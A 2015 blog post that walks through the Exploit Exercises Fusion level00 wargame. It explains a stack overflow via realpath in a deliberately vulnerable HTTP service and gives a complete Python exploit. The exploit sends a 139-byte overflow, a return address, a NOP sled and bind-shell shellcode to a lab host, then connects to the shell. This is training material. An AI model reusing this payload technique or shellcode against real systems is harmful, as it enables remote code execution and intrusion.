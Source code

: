 ```yaml
---
layout:     post
title:      Exploit Exercises - Fusion Level00
date:       2015-01-20 12:00:00
summary:    Poping a shell on the first Fusion challenge
categories: wargames fusion exploit-exercises
---
```


This challenge is pretty much a straight forward stack overflow where you are using the fact that when we call real_path:

{% highlight c lineanchors %}
int fix_path(char *path)
{
  char resolved[128];
  
  if(realpath(path, resolved) == NULL) return 1; // can't access path. will error trying to open
  strcpy(path, resolved);
}
{% endhighlight %}

our `path` variable's size is controlled by our initial read in `parse_http_request`:

{% highlight c lineanchors %}
  char buffer[1024];
  char* path;
  ...
  if(read(0, buffer, sizeof(buffer)) <= 0) errx(0, "Failed to read from remote host");
  ...
  path = &buffer[4];
  ...
  fix_path(path);
{% endhighlight %}

as our `path` variable is simply a pointer to a location in `buffer` 4 bytes in. So looking up what `realpath` <a title="Realpath" href="http://man7.org/linux/man-pages/man3/realpath.3.html" target="_blank">does</a> we find that it will copy the given `path` string to our `resolved` buffer expanding any relative paths that we might have. `realpath` will also make sure that the file actually exists and if it doesn't it will return `NULL`. So for our sake we really don't care if we can access the `strcpy` because `realpath` will do the same thing for us!

So now that we know what we are targeting, we need to make sure we pass the earlier checks to actually get to this point.

{% highlight c lineanchors %}
  ...
  if(memcmp(buffer, "GET ", 4) != 0) errx(0, "Not a GET request"); // Is "GET " the first part of the given string?

  path = &buffer[4];
  q = strchr(path, ' '); // After the "GET " string, is there another space?
  if(! q) errx(0, "No protocol version specified"); // If not, throw an error
  *q++ = 0; // Replace the space with a NULL character so we separate the path and protocol
  if(strncmp(q, "HTTP/1.1", 8) != 0) errx(0, "Invalid protocol"); // Is the protocol == "HTTP/1.1"?
  ...
{% endhighlight %}

So from this we can deduce our payload is going to be something in the form of `GET <fill buffer><return address>; HTTP/1.1<nop sled><shellcode>;`. You can stick your shellcode in the nop sled but it is up to you :D Since we want $eip to point to our shellcode located some number of bytes away from the start of our buffer, we can start with using the buffer address that get leaked to us by the program and add some offset to get to our nop sled (the nop sled is optional here since we can really just calculate the exact offset but I was too lazy lol). Wiht some playing around in the binary you can find number of bogus characters to fill the buffer to be 139, after the 139th character, you will begin to overwrite the return address :D. Thus we would want our return address would be: buffer address + 139 + a few more to make sure we go past the return address that we stuck in there and onto the nop sled. Putting it all together we get:

{% highlight python lineanchors %}
import sys
from os.path import expanduser
home = expanduser("~")
sys.path.append(home + "/Template")
from isis import *


#Allow time to attach debugger
debug = True
#change for local vs remote exploit
host = "172.16.76.131"
port = 20000

#set up connection and set timeout 
def connect():
	s = get_socket((host,port))
	s.settimeout(0x1000000)
	return s

s = connect()
if debug:
	raw_input("?")

# Shell Bind TCP Shellcode Port 1337 - 89 bytes - http://shell-storm.org/shellcode/files/shellcode-882.php
shellcode = "\x6a\x66\x58\x6a\x01\x5b\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x5f\x97\x93\xb0\x66\x56\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\x43\x56\x56\x57\x89\xe1\xcd\x80\x59\x59\xb1\x02\x93\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\x89\xca\xcd\x80"


fill_buff = "A"*139 + lei(0xbffff8f8 + 170)

payload = "GET "
payload += fill_buff
payload += " HTTP/1.1"
payload += "\x90" * 32
payload += shellcode

s.send(payload)
	
# keeps connection open
telnet_shell(s)
{% endhighlight %}

We then have a shell listening on port 1337 that we can nc into :D

(I used a collection of helper functions from Blankwall's Template library. I encourage you to check it out: ([Github](https://github.com/blankwall/Template))